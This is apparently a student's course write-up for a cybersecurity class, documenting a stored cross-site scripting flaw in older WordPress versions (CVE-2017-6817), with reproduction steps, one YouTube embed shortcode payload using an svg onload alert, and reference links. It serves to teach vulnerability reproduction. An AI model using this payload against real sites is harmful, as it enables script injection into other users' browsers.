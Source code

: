# CodePath Cybersecurity - week 7
#### Exploit 1: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
_CVE-2017-6817_  
_Affected versions 4.0 - 4.7.2, fixed in 4.2.13_  

##### Steps
- Create a new Post
- Switch from Visual editing mode to Text (HTML) editing mode
- Insert the YouTube malicious embed shortcode

`[embed src='https://www.youtube.com/embed/dQw4w9WgXcQ\x3csvg onload=alert("exploit!")\x3e'][/embed]`

##### References
- https://wpvulndb.com/vulnerabilities/8768
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817
- https://wordpress.org/news/2017/03/wordpress-4-7-3-security-and-maintenance-release/
- https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8
- https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html

##### Walkthrough
![Walkthrough exploit 1](https://i.imgur.com/LqaLZgY.gif)
